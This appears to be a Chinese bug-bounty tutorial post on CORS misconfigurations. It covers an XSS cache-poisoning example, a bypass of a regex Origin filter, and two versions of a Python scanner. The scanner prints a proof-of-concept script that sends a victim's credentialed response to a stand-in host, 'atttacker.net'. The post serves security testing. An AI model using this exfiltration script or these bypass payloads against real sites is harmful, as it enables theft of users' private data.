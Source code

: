 ```yaml
---
layout: post
title: BugBounty基础 - CORS
---
```


## 介绍
---

关于CORS的过多介绍这里不再赘述，以下文章很清楚的描写了相关信息:

> 通过访问攻击者部署的网站，请求目标服务器，从而跨域访问受害者的相关资源

[Exploiting CORS misconfigurations for Bitcoins and bounties](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)

[Advanced CORS Exploitation Techniques](https://corben.io/blog/18-6-16-advanced-cors-techniques)


## 深入理解
---

### 在无COOKIE和认证时进行客户端缓存投毒(Client-Side cache poisoning)

> 此情况网站会将指定的**自定义** http头用作回显

```
GET / HTTP/1.1  
Host: example.com  
X-User-id: <svg/onload=alert(1)>  
  
HTTP/1.1 200 OK  
Access-Control-Allow-Origin: *  
Access-Control-Allow-Headers: X-User-id  
Content-Type: text/html  
...  
Invalid user: <svg/onload=alert(1)>
```


### 一种对Origin头过滤的案例及绕过

```
SetEnvIf Origin "^https?:\/\/(.*\.)?xxe.sh([^\.\-a-zA-Z0-9]+.*)?" AccessControlAllowOrigin=$0Header set Access-Control-Allow-Origin %{AccessControlAllowOrigin}e env=AccessControlAllowOrigin
```

正则解释

```
[^\.\-a-zA-Z0-9] = does not match these characters: "." "-" "a-z" "A-Z" "0-9"+ = a quantifier, matches above chars one or unlimited times (greedy).* = any character(s) except for line terminators
```

> 从 xxe.sh阻止所有子域和这些域上的任何端口进行跨域访问

使用空格进行绕过 `. - a-z A-Z 0-9` 正则匹配

```
Origin: 'http://xxx.xxe.sh .payload'
```

随后修改hosts文件

```
127.0.0.1 xxx.xxe.sh_.payload
```

## 代码实现
---

既然知道了能够通过 `Access-Control-Allow-Origin` 和 `Access-Control-Allow-Credentials` 验证是否存在CORS，以及了解了相关的绕过方法和触发方法，那么做一个简单的扫描器也轻而易举:

```python
#python3
import requests
import re
import sys

if len(sys.argv) < 2:
    print("requires a url parameter.")
    sys.exit(0)
else:
    url = sys.argv[1]

def CheckCORS(url):
    domain = re.search(r"https?://([\w.-]+)/", url)
    domain = domain.group(1)
    payload = ['https://'+domain+'.test.com','http://'+domain+'.test.com','https://'+domain+' .test.com','https://'+domain+'_.test.com','null','https://www.test.com','http://www.test.com']
    POC = """
	var req = new XMLHttpRequest();  
	req.onload = reqListener;  
	req.open('get','"""+url+"""',true);  
	req.withCredentials = true;  
	req.send();  
  
	function reqListener() {  
	    location='//atttacker.net/log?key='+this.responseText;  
	};
	"""
    for i in range(len(payload)):
        try:
            headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0",
            "Origin": payload[i]
            }
            response = requests.get(url,headers=headers)
            acao_headers = response.headers['Access-Control-Allow-Origin']
            acac_headers = response.headers['Access-Control-Allow-Credentials']
            if (acao_headers == payload[i] or  acao_headers == '*') and acac_headers == "true":
                print("{} has a CORS vulnerability.".format(url))
                print("try to use poc:\n {}".format(POC))
                print("change hosts file to: 127.0.0.1  {}\nand put POC HTML file in HTTP Server.".format(payload[i]))
                break
                return url
        except:
            pass

if __name__ == "__main__":
    CheckCORS(url)
    
```

## 2023.05.19 补充

### Access-Allow-Control-Origin 头

> Access-Allow-Control-Origin 用于针对没有凭据的请求，这大致表明:虽然接受跨域请求，但用户未认证

https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Access-Control-Allow-Origin

一般有以下几种回显:

```
Access-Control-Allow-Origin: *
Access-Control-Allow-Origin: <origin>
Access-Control-Allow-Origin: null
```

补充代码:

```python
#python3
import requests
import re
import sys

if len(sys.argv) < 2:
    print("requires a url parameter.")
    sys.exit(0)
else:
    url = sys.argv[1]

def CheckCORS(url):
    domain = re.search(r"https?://([\w.-]+)/", url)
    domain = domain.group(1)
    payload = ['https://'+domain+'.test.com','http://'+domain+'.test.com','https://'+domain+' .test.com','https://'+domain+'_.test.com','null','https://www.test.com','http://www.test.com']
    POC = """
	var req = new XMLHttpRequest();  
	req.onload = reqListener;  
	req.open('get','"""+url+"""',true);  
	req.withCredentials = true;  
	req.send();  
  
	function reqListener() {  
	    location='//atttacker.net/log?key='+this.responseText;  
	};
	"""
    for i in range(len(payload)):
        try:
            headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0",
            "Origin": payload[i]
            }
            aaco_headers = acao_headers = acac_headers = ""
            response = requests.get(url,headers=headers)
            if 'Access-Control-Allow-Origin' in response.headers:
                 acao_headers = response.headers['Access-Control-Allow-Origin']
            if 'Access-Control-Allow-Credentials' in response.headers:
                acac_headers = response.headers['Access-Control-Allow-Credentials']
            if 'Access-Allow-Control-Origin' in response.headers:
                aaco_headers = response.headers['Access-Allow-Control-Origin']
            if (acao_headers == payload[i] or acao_headers == '*') and acac_headers == "true":
                print("{} has a CORS vulnerability.".format(url))
                print("try to use poc:\n {}".format(POC))
                print("change hosts file to: 127.0.0.1  {}\nand put POC HTML file in HTTP Server.".format(payload[i]))
                break
                return url
            elif  (aaco_headers == payload[i] or aaco_headers == '*') or acac_headers == "true":
                print("{} Maybe has a CORS vulnerability. but need check manual".format(url))
                return url
                break
        except:
            pass

if __name__ == "__main__":
    CheckCORS(url)
    
```
